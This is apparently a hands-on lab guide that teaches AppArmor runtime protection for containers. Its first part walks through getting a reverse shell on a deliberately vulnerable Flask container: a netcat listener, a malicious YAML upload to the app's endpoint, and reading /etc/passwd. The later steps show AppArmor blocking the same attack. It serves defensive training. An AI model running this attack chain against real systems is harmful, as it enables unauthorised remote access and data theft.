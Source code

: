 # **AppArmor**

---

> #### Runtime Protection for Container Workloads

### **Lab Image : `Containers`**

---

#### Step 1:

* Navigate to the `AppArmor` directory on the provisioned server.

```
cd /root/container-training/Container/AppArmor/
```

* Multiplex terminal session with `tmux` and split panes horizontally.

```commandline
tmux
```
```commandline
tmux split-window -v
```

---

#### Step 2:

* Go to the lower panel and start a `netcat` listener.

> ###### Switch to the lower panel with `ctrl` + `b` and then `lower arrow key`

```commandline
nc -l 1337
```

* Go to the upper pane to launch the `abhaybhargav/vul_flask` container

> ###### Switch to the upper pane with `ctrl` + `b` and then `upper arrow key`

```commandline
docker run -d -p 5050:5050 abhaybhargav/vul_flask
```

---

#### Step 3:

* Fetch the Public IP Address of the provisioned server

```commandline
serverip
```

* Edit `reverse_shell.yml` by substituting `<IP>` with the Public IP Address fetched in the previous step

> **EXAMPLE**: `sed -i -e 's/Server_IP_Here/192.168.1.1/g' reverse_shell.yml`

```commandline
sed -i -e 's/Server_IP_Here/'"$(serverip)"'/g' reverse_shell.ymll
```

* Confirm if `reverse_shell.yml` has been edited.

```commandline
cat reverse_shell.yml
```

---

#### Step 4:

* Upload the edited `reverse_shell.yml` to the `abhaybhargav/vul_flask` application running on port `5000`

> **EXAMPLE**: `http --form POST http://192.168.1.1:5050/yaml_hammer file@reverse_shell.yml submit=submit`

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

* If the command has successfully executed, the reverse tcp shell in the lower panel should be working. To run commands on the shell, switch to the lower panel.

> ###### Switch to the lower panel with `ctrl` + `b` and then `lower arrow key`

* With a reverse-shell on the container, commands can be run on it.

```commandline
ls
```
```commandline
cat /etc/passwd
```
```commandline
cat app.py
```

* Go back to the upper pane and stop all containers. Running this will terminate the reverse-shell.

> ###### Switch to the upper pane with `ctrl` + `b` and then `upper arrow key`

```commandline
clean-docker
```

---

> #### **Let's try and prevent the same attack using `Apparmor`**:

---

#### Step 5:

* Load the apparmor profile to the provisioned server

```commandline
apparmor_parser -r -W vul-flask-armor
```

* Launch the same `abhaybhargav/vul_flask` container, with the apparmor profile attached.

```commandline
docker run --rm -d -p 5050:5050 --security-opt apparmor=vul-flask-armor abhaybhargav/vul_flask
```

---

#### Step 6:

* Switch to the lower panel and setup the netcat listner

> ###### Switch to the lower pane with `ctrl` + `b` and then `lower arrow key`

```commandline
ctrl + b + (lower arrow key) 
```
```commandline
nc -l 1337
```

* In the upper panel, upload the `reverse_shell.yml` file similar to **Step 4**

> **EXAMPLE**: `http --form POST http://192.168.1.1:5050/yaml_hammer file@reverse_shell.yml submit=submit`

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

> **NOTE**: It can be observed that the reverse-shell was unsuccessful

---

#### Step 7:

* Fetch the `Container ID` and try to `exec` into the `abhaybhargav/vul_flask` container.

```commandline
docker ps
```

> **EXAMPLE**: `docker exec -ti fc4e7ea5e6f3 bash`

```commandline
docker exec -ti <CONTAINER ID> bash
```

* Inside the container environment, try to create/access files

```commandline
cat /etc/passwd
```
```commandline
touch shell.py
```
```commandline
touch /tmp/shell.py
```

> **NOTE**: The reverse-shell and the commands do not work because we enabled the runtime security profile with AppArmor

---

#### *Teardown*:

* Exit from the `tmux` sessions and stop all the containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://docs.docker.com/engine/security/apparmor/

* https://gitlab.com/apparmor/apparmor